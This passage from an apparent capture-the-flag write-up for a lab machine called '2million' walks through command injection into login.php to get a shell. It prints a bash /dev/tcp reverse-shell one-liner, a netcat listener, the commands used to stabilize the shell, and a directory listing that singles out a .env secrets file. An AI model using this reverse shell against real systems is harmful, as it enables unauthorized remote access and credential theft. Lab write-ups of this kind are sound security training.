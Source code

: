 Let's included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`bash -c "bash -i >& /dev/tcp/10.0.2.15/1234 0>&1" #`
![shell command](./2million/shell_command.png)

A reverse shell will land on your netcat after you send the request.
![reverse shell](./2million/rev_shell.png)

Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

The folder contains .env file which is generally used to set environment variables for use by the application. This application is more faking a .env file rather than actually using it in a framework, but the .env file still looks the same:
```bash
www-data@2million:~/html$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Jun 16 16:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jun 16 16:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
```
